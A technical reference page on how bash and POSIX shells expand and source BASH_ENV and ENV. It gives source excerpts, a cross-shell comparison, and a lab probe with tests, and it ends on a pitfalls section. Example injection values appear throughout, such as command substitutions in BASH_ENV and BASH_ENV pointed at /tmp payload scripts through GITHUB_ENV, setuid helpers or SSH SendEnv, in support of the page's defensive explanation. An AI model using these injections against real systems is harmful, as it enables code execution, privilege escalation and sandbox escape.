

# BASH_ENV and ENV

> [!summary] Claim
> `BASH_ENV` in non-interactive GNU bash and `ENV` in interactive POSIX shells force the shell interpreter to subject an untrusted environment variable to parameter, command substitution, and arithmetic expansion (in every measured shell except mksh, which uses the value literally), and source the resulting pathname before executing any script or command, turning unscrubbed environment blocks into pre-execution code injection vectors.

Part of [Shell Security](README.md) in [Shell and Unix Engineering](../README.md).

## TL;DR

- Mechanism: `execute_env_file()` in GNU bash expands the variable with `expand_string_unsplit_to_string()` under double-quote semantics and calls `maybe_execute_file()` with `FEVAL_ENOENTOK`, executing embedded command substitutions before opening the file without consulting `PATH` (bash-5.3 shell.c, `execute_env_file`).
- Rule: `BASH_ENV` is executed only by non-interactive bash outside POSIX mode, outside `sh` emulation, and without `-p`; `ENV` is executed only by interactive shells in POSIX-conforming mode (POSIX.1-2024 XCU sh, ENVIRONMENT VARIABLES, `ENV`).
- Trap: `BASH_ENV` and `ENV` do not search `PATH`, so relative filenames resolve against the process's current working directory, and command substitutions execute even if the target file does not exist.
- Portability fact: POSIX standardizes `ENV` strictly for interactive shells and defines no non-interactive script startup variable; dash, mksh, ksh93, BusyBox ash, and `zsh --emulate sh` ignore `BASH_ENV` and execute `ENV` only when `-i` is passed, native zsh ignores both variables in favor of `/etc/zshenv`, yash reads `ENV` only in POSIX mode (`-o posix` or the name `sh`), mksh R59 sources `ENV` as a literal pathname without expanding it, and posh 0.14.1 disables `ENV` entirely (measured in the shell matrix, as of 2026-11).
- When not to use it: never use `BASH_ENV` or `ENV` to inject dependencies into automated scripts; make scripts self-contained and execute security-critical wrappers under `env -i` with explicit variable allowlists.

## Mental model



The operating system kernel hands the newly executed shell process only its argument vector `argv`, inherited file descriptors, and the environment array `envp`.
Before the shell reads a single line of script code, `main()` inspects its privileges, its option flags, its file descriptors, and its environment variables.
If the shell detects privilege elevation (`uid != euid` or `gid != egid`) or an explicit `-p` flag, it completely disables the execution of startup environment files: bash skips `run_startup_files()` altogether when `running_setuid` is set, and checks `privileged_mode` inside it for an explicit `-p` (bash-5.3 shell.c, `main` line 708 and `run_startup_files`).
When running unprivileged, the shell evaluates whether it is interactive.
An interactive shell conforming to POSIX evaluates `ENV` via parameter expansion and command substitution, ignoring `BASH_ENV` (mksh is the exception: it uses the value of `ENV` as a literal pathname).
A non-interactive shell skips all startup files under POSIX, but GNU bash branches to `BASH_ENV` when running outside POSIX mode and outside `sh` compatibility mode.
The variable value undergoes parameter expansion, command substitution, and arithmetic expansion without word splitting.
The resulting string is passed directly to `open(2)` without searching `PATH`, meaning relative filenames bind to the current working directory.
If the file is missing, bash ignores the missing file; if readable, bash parses and executes it with `set -e` temporarily suspended.
Only after this startup sequence completes do restricted shell constraints take effect, allowing startup files to perform operations that the subsequent script cannot.

## How it works

### Historical origin: from ksh88 to POSIX.1 and Bash 2.0

In the historical 1988 KornShell (`ksh88`), the author David Korn designed the `ENV` variable to initialize subshells and scripts.
In `ksh88`, every invoked shell process, including non-interactive ones such as shell escapes and scripts, checked for `ENV`, expanded its value, and sourced the file.
Users of that era guarded the file with a test for `i` in the `$-` option string `(comp.unix.wizards, 1988-08, "Conditional setting of ENV in ksh")`, and Solaris 10 later stopped expanding `ENV` in non-interactive Korn shells, which its release notes list as a Single UNIX Specification, Version 3 change `(Solaris 10 Release Notes, ENV variable in the Korn shell)`.
David Korn himself described the cost in a 1995 defect report against ISO/IEC 9945-2:1993 `(WG15 interpretation request 9945-2-110)`: if the `ENV` file runs `set` or `shift`, the arguments a script sees differ from the ones its caller passed, a script cannot work around that, and expanding `ENV` on every invocation hurts overall system performance, so he asked that `ENV` be required only for interactive shells.
When POSIX developed the shell specification in IEEE Std 1003.2-1992 (POSIX.2; POSIX.1-1990 covered the system interface, not the shell), the standard developers restricted `ENV` to interactive shells.
POSIX.1-2024 maintains this exact boundary: `ENV` is processed "when and only when an interactive shell is invoked" `(POSIX.1-2024 XCU sh, ENVIRONMENT VARIABLES, ENV)`.
`BASH_ENV` predates bash 2.0: in bash 1.14.7 `shell.c`, a non-interactive bash not named `sh` read `BASH_ENV`, fell back to `ENV` when `BASH_ENV` was unset, and in POSIX mode read only `ENV` (bash-1.14.7 shell.c, `run_startup_files`).
Bash 2.0 then confined `ENV` to interactive shells "as POSIX.2 specifies" and kept `BASH_ENV` as the non-interactive hook (bash-5.3 NEWS, bash-2.0 section).
`BASH_ENV` gives non-interactive bash scripts a mechanism to import function definitions, aliases, and variables without polluting POSIX `sh` compatibility `(bash-5.3 doc/bash.1, INVOCATION)`.

### System call sequence and execution flow

When an application invokes `execve(2)` with a shell binary, the kernel transfers control to `main()` in the shell binary.
In GNU bash, `main()` in `shell.c` initiates variable tables through `shell_initialize()`, which imports the inherited `envp` array into bash's internal hash table `(bash-5.3 shell.c, main)`.
At this early initialization phase, bash imports exported shell functions encoded with the `BASH_FUNC_` prefix, increments `SHLVL`, and parses `SHELLOPTS` `(bash-5.3 variables.c, initialize_shell_variables)`.
Following variable initialization, `main()` computes shell interactivity.
A shell is interactive if the `-i` option was supplied, or if there is no `-c` string, no script operand, and both standard input (`fileno(stdin) == 0`) and standard error (`fileno(stderr) == 2`) return true from `isatty(3)`; `main()` makes this test and then calls `init_interactive()` or `init_noninteractive()` `(bash-5.3 shell.c, main, lines 540-549)`.
`main()` then calls `run_startup_files()` to execute the appropriate configuration files.

In `run_startup_files()`, bash evaluates whether it is non-interactive `(bash-5.3 shell.c, run_startup_files)`:

```c
  if (interactive_shell == 0 && !(su_shell && login_shell))
    {
      if (posixly_correct == 0 && act_like_sh == 0 && privileged_mode == 0 &&
	    sourced_env++ == 0)
	execute_env_file (get_string_value ("BASH_ENV"));
      return;
    }
```

Notice the four gating conditions:
1. `posixly_correct == 0`: the shell is not running in POSIX mode (`--posix` or `POSIXLY_CORRECT` in environment).
2. `act_like_sh == 0`: the shell was not invoked with the name `sh`.
3. `privileged_mode == 0`: the shell was not started with `-p` and real UID/GID matches effective UID/GID.
4. `sourced_env++ == 0`: the environment startup file has not already been sourced during this process lifecycle.

If all four conditions hold, bash calls `execute_env_file()` with the value of `BASH_ENV`.
If bash was invoked with the name `sh` or in POSIX mode, this non-interactive branch executes nothing and immediately returns.
In contrast, if the shell is interactive, bash executes `~/.bashrc` in native mode, or calls `execute_env_file(get_string_value("ENV"))` when running in POSIX mode or under the name `sh`.

### The expansion phase: code execution before file open

The string obtained from `BASH_ENV` or `ENV` is not treated as a static file path.
In GNU bash, `execute_env_file()` processes the input string `(bash-5.3 shell.c, execute_env_file)`:

```c
static void
execute_env_file (char *env_file)
{
  char *fn;

  if (env_file && *env_file)
    {
      fn = expand_string_unsplit_to_string (env_file, Q_DOUBLE_QUOTES);
      if (fn && *fn)
	maybe_execute_file (fn, 1);
      FREE (fn);
    }
}
```

`expand_string_unsplit_to_string()` in `subst.c` delegates to `expand_string_unsplit()`, passing `Q_DOUBLE_QUOTES` `(bash-5.3 subst.c, expand_string_unsplit_to_string)`.
The source comments in `subst.c` document the exact operations performed `(bash-5.3 subst.c, expand_string_unsplit)`:
"Expand STRING by performing parameter expansion, command substitution, and arithmetic expansion.
Dequote the resulting WORD_LIST before returning it, but do not perform word splitting."

This design has profound security implications:
If `BASH_ENV` contains `$(id >&2)`, bash forks a subshell, executes `id >&2`, captures standard output, and substitutes it into the filename string.
This command substitution runs inside the process before bash checks whether the file exists, before it checks permissions, and before it opens any file descriptor.
Even if `BASH_ENV` evaluates to a non-existent path such as `$(malicious_command)/nonexistent`, the embedded payload executes unconditionally.

The POSIX standard for `ENV` formally specifies:
"This variable, when and only when an interactive shell is invoked, shall be subjected to parameter expansion (see 2.6.2 Parameter Expansion) by the shell, and the resulting value shall be used as a pathname of a file containing shell commands to execute in the current environment" `(POSIX.1-2024 XCU sh, ENVIRONMENT VARIABLES, ENV)`.
While POSIX references Section 2.6.2 (Parameter Expansion), historical implementations (ksh, bash, dash, and BusyBox ash) use their internal string expansion engines.
In dash, `read_profile()` calls `expandstr(name)` `(dash-0.5.12 src/main.c, read_profile)`.
In BusyBox ash, `read_profile()` calls `expandstr(name, DQSYNTAX)` `(busybox-1.37.0 shell/ash.c, read_profile)`.
In yash, `execute_rcfile()` calls `parse_and_expand_string(env, "$ENV", false)` `(yash-2.58.1 yash.c, execute_rcfile)`.
All of these engines evaluate command substitutions embedded in `ENV` during interactive startup (measured in the shell matrix for dash, BusyBox ash, ksh93, yash in POSIX mode, bash in POSIX mode, and `zsh --emulate sh`).
mksh is the exception: `main()` calls `substitute("${ENV:-" MKSHRC_PATH "}", DOTILDE)` once, which expands `${ENV}` itself but not the text it yields, so the value is a literal pathname (mksh main.c, `main`).
In the shell matrix, Debian and Alpine mksh R59 with `ENV='${D}/e.sh'`, `ENV='$(cmd)/e.sh'`, or `ENV='~/e.sh'` ran neither the command nor the file, while `ENV=/tmp/e.sh` and a relative `ENV=e.sh` were sourced.

### File lookup, tildes, and the PATH bypass

Once the variable string is expanded, bash passes the resulting path to `maybe_execute_file()` in `builtins/evalfile.c` `(bash-5.3 builtins/evalfile.c, maybe_execute_file)`:

```c
int
maybe_execute_file (const char *fname, int force_noninteractive)
{
  char *filename;
  int result, flags;

  filename = bash_tilde_expand (fname, 0);
  flags = FEVAL_ENOENTOK|FEVAL_RETRY;
  if (force_noninteractive)
    flags |= FEVAL_NONINT;
  result = evalfile_internal (filename, flags);
  free (filename);
  return result;
}
```

Notice the sequence of operations:
First, `bash_tilde_expand(fname, 0)` expands leading tildes (`~` or `~user`).
Second, `maybe_execute_file()` defines `flags = FEVAL_ENOENTOK | FEVAL_RETRY`.
Third, it calls `evalfile_internal(filename, flags)`.

Inside `evalfile_internal()`:
1. File opening: `fd = open (filename, O_RDONLY);` `(bash-5.3 builtins/evalfile.c, evalfile_internal)`.
The shell does not search `PATH`.
It issues a direct `open(2)` system call using the string provided.
If `filename` is a relative path (e.g. `BASH_ENV="init.sh"`), the kernel resolves `init.sh` relative to the current working directory of the shell process.
POSIX notes this exact ambiguity: "If the expanded value of ENV is not an absolute pathname, the results are unspecified" `(POSIX.1-2024 XCU sh, ENVIRONMENT VARIABLES, ENV)`.
2. Missing file handling: if `open(2)` fails with `ENOENT` (No such file or directory), `evalfile_internal()` inspects `flags & FEVAL_ENOENTOK`.
Because `FEVAL_ENOENTOK` is set, bash suppresses the error message, closes no descriptors, and returns 0.
The shell proceeds to run the target script without error.
3. Permission and type errors: if `open(2)` fails with `EACCES` (Permission denied) or if `fstat(2)` reports `S_ISDIR` (file is a directory), bash prints a diagnostic to standard error, prefixed with the name it was invoked as (measured: `/bin/bash: /tmp/: is a directory` and `/bin/bash: .../np: Permission denied`, both followed by the normal body output).
However, because `FEVAL_LONGJMP` is not included in `flags`, the error does not terminate the shell.
Bash logs the warning to standard error, returns execution failure from the startup hook, and continues immediately to parse and execute the main script.
4. File reading: if `open(2)` succeeds on a regular file, bash allocates memory via `xmalloc(1 + file_size)`, reads the entire file into memory with a single `read(2)` call, and passes the buffer to `parse_and_execute()`; any other file type (a FIFO or `/dev/fd/N`) is read with `zmapfd()` instead `(bash-5.3 builtins/evalfile.c, evalfile_internal)`.
`maybe_execute_file()` does not set `FEVAL_CHECKBINARY`, so no binary-file check runs on a startup file; embedded NUL bytes are silently deleted, and the 256-NUL rejection applies only when `FEVAL_BUILTIN` is set, that is, to the `source` builtin `(bash-5.3 builtins/evalfile.c, evalfile_internal)`.

### Option dynamics: errexit suppression and positional parameters

In `shell.c`, bash protects startup file execution from option termination `(bash-5.3 shell.c, main, lines 706-729)`:

```c
  if (locally_skip_execution == 0 && running_setuid == 0)
    {
      char *t;

      old_errexit_flag = exit_immediately_on_error;
      exit_immediately_on_error = 0;

      if (shell_script_filename)
	{
	  t = dollar_vars[0];
	  dollar_vars[0] = exec_argv0 ? savestring (exec_argv0) : savestring (shell_script_filename);
	}
      run_startup_files ();
      if (shell_script_filename)
	{
	  free (dollar_vars[0]);
	  dollar_vars[0] = t;
	}
      exit_immediately_on_error += old_errexit_flag;
    }
```

This code establishes two operational invariants, plus a third gate: the whole block, and with it every startup file, is skipped when `running_setuid` is set (real and effective IDs differ), whether or not `-p` was given.
First, `exit_immediately_on_error` (`set -e` or `errexit`) is explicitly forced to 0 before `run_startup_files()` is invoked, and restored afterward.
If `BASH_ENV` executes a command that exits with a non-zero status (such as `false` or a failing `grep`), the shell does not abort, even if the script was invoked with `bash -e script.sh`.
Second, `$0` and positional parameter binding depends on the bash release.
Beginning in GNU bash 5.0, positional parameters are initialized before startup files run ("so startup files can use $@"), and `$0` is temporarily assigned to `exec_argv0` if set, else to `shell_script_filename`, during `run_startup_files()` `(bash-5.3 CHANGES, bash-5.0-alpha item r; bash-5.3 shell.c, main)`.
In GNU bash 3.2 and 4.4, startup files ran before argument binding: `$0` was bound to the bash binary (`/bin/bash`) and `$#` was 0.
The lab proves this exact divergence between current bash and macOS bash 3.2 (measured on the macOS host: bash 5.3.15 prints `0=.../script.sh #=2`, Apple bash 3.2.57 prints `0=/bin/bash #=0`); bash 4.4 was not measured.

### Delayed restriction arming in restricted shells

When bash is invoked as a restricted shell (`rbash` or `bash -r`), it restricts directory changes (`cd`), path modifications (`PATH`), command execution containing `/`, output redirection (`>`, `>>`), and execution of `exec` `(bash-5.3 doc/bashref.texi, The Restricted Shell)`.
However, `main()` in `shell.c` enforces restrictions in a specific phase order (simplified excerpt; the `act_like_sh` block that turns on POSIX mode between the two steps is omitted) `(bash-5.3 shell.c, main)`:

```c
  run_startup_files ();

#if defined (RESTRICTED_SHELL)
  restricted = saverst || restricted;
  if (shell_reinitialized == 0)
    maybe_make_restricted (shell_name);
#endif /* RESTRICTED_SHELL */
```

Restrictions are activated only after `run_startup_files()` has finished.
While `BASH_ENV` is executing, `restricted` is 0.
Therefore, a script executed via `BASH_ENV` inside `bash -r` can execute external binaries with absolute paths (e.g. `/bin/echo`), redirect file descriptors, and manipulate environment variables.
Once `run_startup_files()` completes, `maybe_make_restricted()` executes `(bash-5.3 shell.c, maybe_make_restricted)`.
It permanently locks down `restricted = 1` and marks `PATH`, `SHELL`, `ENV`, `BASH_ENV`, and `HISTFILE` as read-only and un-unsettable.

### Privileged mode and setuid defense

When bash detects that real and effective credentials differ, `uidget()` sets `running_setuid`, and `main()` then skips `run_startup_files()` entirely (bash-5.3 shell.c, `main` lines 421 and 708).
When explicitly passed `-p`, bash enters privileged mode, and `run_startup_files()` checks `privileged_mode == 0` before executing `BASH_ENV` or `ENV` `(bash-5.3 shell.c, run_startup_files)`.
If `privileged_mode` is non-zero, both variables are ignored.
Furthermore, in set-user-ID executions where `-p` was not supplied on the command line, `main()` calls `disable_priv_mode()`, resetting the effective UID and GID to the real credentials (bash-5.3 shell.c, `main` line 513 and `disable_priv_mode`); `-p` is what keeps the elevated effective IDs.
The consequence for attack surface: a genuinely set-user-ID bash (real UID unprivileged) never reads `BASH_ENV`; the exposure is a process whose real UID is already root, such as a root daemon or a helper that called `setuid(0)` before `system()`, running bash with a user-supplied environment.
In historical versions of bash (through 5.0 patch 11), `disable_priv_mode()` called `setuid(getuid())`, which reset the effective UID but left the saved set-user-ID intact.
This allowed local attackers to regain root privileges via `enable -f` loadable builtins (CVE-2019-18276, MITRE CVE record: "GNU Bash through 5.0 patch 11").
Modern bash 5.3 resolves this by invoking `setresuid(uid, uid, uid)` and `setresgid(gid, gid, gid)` when `HAVE_SETRESUID` is defined (bash-5.3 shell.c, `disable_priv_mode`).

## Numbers and limits

The execution of `BASH_ENV` and `ENV` is bounded by operating system system call limits, buffer allocations, and shell release revisions.

| Parameter or Limit | Value | Mechanism and Source |
|---|---|---|
| Maximum single environment variable string size | 128 KiB (`MAX_ARG_STRLEN` = `PAGE_SIZE * 32` on Linux; 131072 bytes on 4 KiB pages, counting `NAME=`, value, and NUL) | Linux kernel `include/uapi/linux/binfmts.h`, enforced during `execve(2)`; measured on Debian 13 aarch64: a 131072-byte `X=...` string passes, one byte more gives `Argument list too long` (as of 2026-11) |
| Total environment and argument size limit | 2 MiB default (Linux `_SC_ARG_MAX` = 2,097,152 bytes) | Linux kernel `fs/exec.c`, bounded by 1/4 of `RLIMIT_STACK`; `getconf ARG_MAX` prints 2097152 on Debian 13 with the default 8 MiB stack (as of 2026-11) |
| `read(2)` chunk size for startup files | `st_size` bytes (single buffer) for a regular file; `zmapfd()` for other file types | `evalfile_internal()` allocates `file_size + 1` via `xmalloc()` (bash-5.3 builtins/evalfile.c) |
| Binary file check on startup files | none: `FEVAL_CHECKBINARY` is not set, NUL bytes are silently deleted | the 80-byte `check_binary_file()` sample and the 256-NUL limit apply only to `source` (`FEVAL_BUILTIN`), not to `maybe_execute_file()` (bash-5.3 builtins/evalfile.c) |
| Positional parameter binding point | Bash 5.0+ binds `$@` before startup; Bash 3.2/4.4 binds after | Verified in lab: bash 5.3 reports `$# = 2`, bash 3.2 reports `$# = 0` (bash-5.3 CHANGES) |
| `errexit` status during startup files | 0 (`exit_immediately_on_error` disabled) | Explicitly forced to 0 in `shell.c` line 713; verified in lab (bash-5.3 shell.c) |
| Restricted shell variable lock-in | 5 variables made read-only | `PATH`, `SHELL`, `ENV`, `BASH_ENV`, `HISTFILE` locked by `maybe_make_restricted()` (bash-5.3 shell.c) |
| Parallels Desktop LPE disclosure | CVE-2024-6240 (versions earlier than 19.3.0 affected), published 2024-06-21 | CNA INCIBE record and INCIBE-CERT advisory, CVSS 3.1 base score 7.7 (CVE-2024-6240 record) |
| Shellshock disclosure date | 2014-09-24 (GNU Bash through 4.3) | CVE-2014-6271 record, trailing code execution in environment variables |
| Lab test coverage across shells | 11 tests; the drafter measured 11/11 on the macOS host (bash 5.3.15, Apple bash 3.2.57, dash 0.5.13, zsh 5.9.2) | the full shell matrix was not run while lab checks were paused; a single probe run in the matrix images corrected the yash and mksh expectations (as of 2026-11) |

## Portability

Shell implementations diverge sharply in their treatment of environment startup files.
The table below records the exact behavior verified by the shell matrix and primary source audits.

| Shell Engine | `BASH_ENV` non-interactive | `ENV` non-interactive | `ENV` interactive (`-i`) | Command substitution in variable | Relative path resolution | Privileged mode (`-p`) | Restricted mode (`-r`) |
|---|---|---|---|---|---|---|---|
| POSIX.1-2024 sh | not defined (ignored) | ignored | sourced (parameter expansion only) | unspecified (parameter only) | unspecified (undefined) | ignored (ID mismatch) | not specified |
| GNU bash 5.x | sourced (expanded) | ignored | ignored (runs `~/.bashrc`) | evaluated (`$(...)` runs) | resolves against current working directory | ignored (startup skipped) | executed before restrictions lock |
| GNU bash 3.2 / 4.4 | sourced (no `$@` bound) | ignored | ignored (runs `~/.bashrc`) | evaluated (`$(...)` runs) | resolves against current working directory | ignored (startup skipped) | executed before restrictions lock |
| Apple bash 3.2 (`/bin/bash`) | sourced (no `$@` bound) | ignored | ignored (Apple patch shadows `posixly_correct = 0`) | evaluated (`$(...)` runs) | resolves against current working directory | ignored (startup skipped) | executed before restrictions lock |
| GNU bash as `sh` | ignored | ignored | sourced before entering POSIX mode | evaluated (`$(...)` runs) | resolves against current working directory | ignored (startup skipped) | executed before restrictions lock |
| dash 0.5.12 / 0.5.13 | ignored | ignored | sourced (via `expandstr()`) | evaluated (`$(...)` runs) | resolves against current working directory | Debian accepts; Alpine/Homebrew reject | rejected (invalid option) |
| BusyBox ash 1.37.0 | ignored | ignored | sourced (via `expandstr()`) | evaluated (`$(...)` runs) | resolves against current working directory | rejected (exit 2) | rejected (exit 2) |
| ksh93 (u+ 2012, u+m) | ignored | ignored | sourced (via internal parser) | evaluated (`$(...)` runs) | resolves against current working directory | ignored (startup skipped) | supported (locks restricted) |
| mksh R59 | ignored | ignored | sourced as a literal pathname (value not expanded) | not evaluated (`$(...)` does not run) | resolves against current working directory | skips `ENV`, sources `/etc/suid_profile` instead | supported (locks restricted after startup files) |
| yash 2.58.1 | ignored | ignored | sourced in POSIX mode only | evaluated (`$(...)` runs) | resolves against current working directory | rejected (exit 2) | rejected (exit 2) |
| posh 0.14.1 | ignored | ignored | ignored (`SILLY_FEATURES` disabled) | disabled | not applicable | rejected (exit 1) | rejected (exit 1) |
| zsh 5.9 (native) | ignored | ignored | ignored (sources `~/.zshrc`) | not applicable | not applicable | skips `~/.zshenv` | supported |
| zsh `--emulate sh` | ignored | ignored | sourced (interactive only) | evaluated (`$(...)` runs) | resolves against current working directory | supported (skips `ENV`) | supported |

The implementation source code explains the apparent contradictions:
Apple's `/bin/bash` 3.2 source contains a vendor patch in `run_startup_files()` where a nested block introduces `int posixly_correct = 0; /* Solaris 10 sources /etc/profile and $HOME/profile in /usr/xpg4/bin/sh */` (Apple bash-3.2 shell.c, line 1120).
This local variable shadows the global `posixly_correct` setting, causing `bash --posix -i` on macOS to bypass the `ENV` branch and execute `~/.bashrc` instead.
In dash and BusyBox ash, the POSIX check ignoring `ENV` when real and effective IDs diverge sits behind `#ifndef linux` (dash src/main.c, `main`; BusyBox shell/ash.c, `ash_main`), meaning Linux builds of dash and ash still do not check user ID mismatches; only non-Linux builds do (as of 2026-11).
posh 0.14.1 places the entire `ENV` sourcing block inside `#ifdef SILLY_FEATURES` (posh main.c, lines 326-342), which the build does not define, so `ENV` is never sourced (measured in the shell matrix on Debian posh 0.14.1).
In the mksh row, `ENV` is taken literally because `main()` expands only the fixed word `"${ENV:-~/.mkshrc}"`, and with `-p` the `Flag(FPRIVILEGED)` branch includes `MKSH_SUID_PROFILE` in place of the `ENV` file (mksh main.c, `main`).
yash reads `ENV` only when `posixly_correct` is set (`execute_rcfile()` in yash.c); `POSIXLY_CORRECT` in the environment does not turn that on, so `yash -i` reads `~/.yashrc` and ignores `ENV`, while `yash -o posix -i` expands and sources it (measured on Alpine yash 2.58.1).

## Worked example

The companion [lab](../labs/17-bash_env-and-env/) verifies environment startup mechanics across all available shells.
The probe script `probe.sh` executes the target shell under an isolated environment (`env -i`) with monitored temporary trace files, capturing which files run, the command output, and the exit status.

Simplified excerpt from `labs/17-bash_env-and-env/probe.sh`:

```sh
# Set up isolated scratch directories and trace targets
sandbox=$(mktemp -d "$TMPDIR/envprobe.XXXXXX")
trace=$sandbox/trace
bash_env_file=$sandbox/bash_env.sh
env_file=$sandbox/env.sh

printf "printf '%%s\\n' BASH_ENV >> '%s'\n" "$trace" >"$bash_env_file"
printf "printf '%%s\\n' ENV >> '%s'\n" "$trace" >"$env_file"

case $mode in
  noninteractive)
    env -i "PATH=$PATH" "HOME=$sandbox" "BASH_ENV=$bash_env_file" "ENV=$env_file" \
      "$shell" "$@" -c 'printf "body: %s\n" main_ran' >"$sandbox/out" 2>"$sandbox/err"
    ;;
  interactive)
    env -i "PATH=$PATH" "HOME=$sandbox" "BASH_ENV=$bash_env_file" "ENV=$env_file" \
      "$shell" "$@" -i -c 'printf "body: %s\n" main_ran' >"$sandbox/out" 2>"$sandbox/err"
    ;;
  cmdsub)
    cmdsub_val='$(printf "CMDSUB\n" >> "'"$trace"'")'
    env -i "PATH=$PATH" "HOME=$sandbox" "BASH_ENV=$cmdsub_val" "ENV=$env_file" \
      "$shell" "$@" -c 'printf "body: %s\n" main_ran' >"$sandbox/out" 2>"$sandbox/err"
    ;;
  cwd)
    mkdir -p "$sandbox/workdir" "$sandbox/bindir"
    printf "printf '%%s\\n' CWD_INIT >> '%s'\n" "$trace" > "$sandbox/workdir/init.sh"
    printf "printf '%%s\\n' PATH_INIT >> '%s'\n" "$trace" > "$sandbox/bindir/init.sh"
    chmod +x "$sandbox/workdir/init.sh" "$sandbox/bindir/init.sh"
    (
      cd "$sandbox/workdir" && \
      env -i "PATH=$sandbox/bindir:$PATH" "HOME=$sandbox" "BASH_ENV=init.sh" \
        "$shell" "$@" -c 'printf "body: %s\n" main_ran'
    ) >"$sandbox/out" 2>"$sandbox/err"
    ;;
esac
```

Running `probe.sh` across bash and dash produces the following captured outputs (measured on the macOS host with bash 5.3.15 and Homebrew dash, 2026-11-21):

```console
$ ./labs/17-bash_env-and-env/probe.sh noninteractive bash
trace: BASH_ENV
body: main_ran
status: 0

$ ./labs/17-bash_env-and-env/probe.sh noninteractive dash
trace: -
body: main_ran
status: 0

$ ./labs/17-bash_env-and-env/probe.sh interactive dash
trace: ENV
body: main_ran
status: 0

$ ./labs/17-bash_env-and-env/probe.sh cmdsub bash
trace: CMDSUB
body: main_ran
status: 0

$ ./labs/17-bash_env-and-env/probe.sh cwd bash
trace: CWD_INIT
body: main_ran
status: 0
```

The Bats test suite in `labs/17-bash_env-and-env/env.bats` asserts these exact contracts:

```bash
@test "non-interactive shell sources BASH_ENV in bash, ignored by all POSIX shells" {
  probe noninteractive
  [ "$status" -eq 0 ]
  [ "${lines[1]}" = "body: main_ran" ]
  [ "${lines[2]}" = "status: 0" ]
  case $(startup_family) in
    bash) [ "${lines[0]}" = "trace: BASH_ENV" ] ;;
    bash-sh | zsh | zsh-sh | dash | mksh | posh | ksh93 | busybox | yash)
      [ "${lines[0]}" = "trace: -" ]
      ;;
    *) false ;;
  esac
}

@test "BASH_ENV does not search PATH and resolves relative path against current directory" {
  probe cwd
  [ "$status" -eq 0 ]
  [ "${lines[1]}" = "body: main_ran" ]
  [ "${lines[2]}" = "status: 0" ]
  case $(startup_family) in
    bash) [ "${lines[0]}" = "trace: CWD_INIT" ] ;;
    bash-sh | zsh | zsh-sh | dash | mksh | posh | ksh93 | busybox | yash)
      [ "${lines[0]}" = "trace: -" ]
      ;;
    *) false ;;
  esac
}
```

## Pitfalls

> [!warning] Pitfall 1: CI/CD Pipeline Injection via GITHUB_ENV
> Trigger: A GitHub Actions workflow step writes untrusted input (such as pull request titles, issue comments, or branch names) directly into `$GITHUB_ENV` without filtering newlines.
> Symptom: An attacker injects `BASH_ENV=/tmp/malicious.sh\n` into the runner environment.
> Because GitHub Actions executes subsequent `run:` steps using non-interactive bash (`bash -e {0}`), every following step executes the injected script before the step's actual code, leading to runner takeover and secret exfiltration.
> Fix: Never interpolate untrusted contexts directly into shell strings or `$GITHUB_ENV`.
> Pass inputs through step-level `env` blocks and strip carriage returns and newlines (`tr -d '\r\n'`) before appending single-line assignments.

> [!warning] Pitfall 2: Local Privilege Escalation via SUID Binaries (CVE-2024-6240)
> Trigger: A setuid-root C binary that first calls `setuid(0)` (making its real UID root too), or an elevated helper daemon that runs with a user-supplied environment, executes an internal helper script by invoking `/bin/bash script.sh` or `system("bash script.sh")` without clearing the environment or supplying `-p`.
> Symptom: A low-privileged local user exports `BASH_ENV=/tmp/payload.sh` and executes the binary.
> The unprivileged user's `BASH_ENV` is inherited across `execve(2)`.
> Because real and effective UIDs are both root, `running_setuid` is 0, so bash reads `BASH_ENV` and executes `/tmp/payload.sh` as root before running the helper script.
> (A plain setuid binary that leaves the real UID unprivileged is not exposed this way: bash sees `uid != euid`, skips all startup files, and drops to the real UID, per bash-5.3 shell.c `main`.)
> Fix: In privileged code, never invoke shells with user-controlled environments.
> Use `execve(2)` with an empty or allowlisted `envp`, or explicitly pass the `-p` (privileged) flag (`/bin/bash -p script.sh`), which suppresses `BASH_ENV` and `ENV` but keeps, rather than drops, the effective credentials.
> CVE-2024-6240 in Parallels Desktop (versions earlier than 19.3.0) is this class: per the CVE record, an attacker could "populate the BASH_ENV environment variable with the path to the malicious script, executing on application startup" to escalate privileges; the record does not say which process ran bash or how.

> [!warning] Pitfall 3: SSH Forced-Command Bypass via Misconfigured AcceptEnv
> Trigger: An OpenSSH server administrator configures `AcceptEnv *` or `AcceptEnv *_ENV` in `/etc/ssh/sshd_config`, or sets `PermitUserEnvironment yes` while relying on `command="..."` in `~/.ssh/authorized_keys` to sandbox a user.
> Symptom: The connecting client passes `SendEnv BASH_ENV=/tmp/backdoor.sh` or sets `environment="BASH_ENV=/tmp/backdoor.sh"` in `authorized_keys`.
> When sshd invokes the forced command wrapper script under bash, bash initializes, executes `/tmp/backdoor.sh`, and grants unrestricted command execution, bypassing the forced-command sandbox.
